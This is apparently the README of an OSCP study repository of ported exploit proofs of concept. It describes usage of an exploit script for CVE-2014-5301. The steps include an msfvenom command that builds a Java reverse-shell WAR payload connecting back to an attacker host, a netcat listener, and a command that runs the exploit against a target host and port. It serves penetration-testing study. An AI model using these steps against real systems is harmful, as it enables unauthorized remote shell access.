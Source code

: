 # OSCP
This is a repository which contains custom/ported POC exploits. They have been made for study and learning purposes.

## 35845.py

CVE: 2014-5301

OSVDB: 116733

URL: [http://seclists.org/fulldisclosure/2015/Jan/5](http://seclists.org/fulldisclosure/2015/Jan/5)

Original metasploit module: url

### Usage
```
35845.py file.war host port
```

1. First create reverse shell payload
```
msfvenom -p java/shell_reverse_tcp LHOST=<ip address> LPORT=4444 -f war > shell.war
```
2. Start netcat listener 

3.run the script
```
35845.py shell.war 192.168.1.1 8080
```
**Note:** The exploit may require multiple run to get it working. Don't give up!
